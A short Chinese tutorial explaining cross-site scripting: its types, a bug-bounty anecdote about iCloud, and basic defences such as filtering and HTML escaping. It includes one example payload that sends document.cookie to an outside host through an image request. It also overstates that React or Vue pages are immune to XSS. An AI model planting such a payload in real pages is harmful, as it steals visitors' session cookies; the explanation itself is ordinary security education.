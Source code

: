 # 什么XSS攻击，如何避免

#### 跨站脚本攻击（XSS）

脚本攻击缩写为XSS。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的特殊目的。XSS攻击一般分三种类型：存储型 、反射型 、DOM型XSS

2021 年 2 月印度的一名测试工程师在苹果 iCloud 官网中发现了一个跨站脚本攻击漏洞，并向苹果公司提交了具体的漏洞说明和触发的操作步骤。事后，苹果公司给这名印度人发放了 5000 美金的奖金。

跨站脚本（Cross Site Scripting），顾名思义，就是利用漏洞将脚本注入网页中。比如提交个人信息的输入框，如果在服务端没有处理好就有可能触发跨站脚本。

假设有一个输入个人签名的多行文本输入框，正常用户会输入几句有趣的话，但是黑客可能会尝试输入：

    scriptdocument.createElement('img').src="https://some.site.com?cookie=document.cookie"/script

如果这段话被显示到用户的个人主页，那么访问这个用户空间的其他用户就会被攻击，进而被黑客拿走 Cookie 中的关键信息。

XSS 攻击模式很简单，就是想办法向网站的页面上注入脚本。总的来说，输入框是一个重灾区。目前随着前端技术的发展，使用前端框架，比如 React 或 Vue 开发的页面已经杜绝了被 XSS 的可能。但是有时候如果工作出现某些疏漏，还是会导致 XSS 的发生。所以正确的做法是上线前拜托安全部门的同学协助进行一些针对 XSS 漏洞的扫描。

#### 如何避免

对输入进行过滤，过滤标签等，只允许合法值。
HTML转义
对于链接跳转，如<a href="xxx" 等，要校验内容，禁止以script开头的非法链接。
限制输入长度
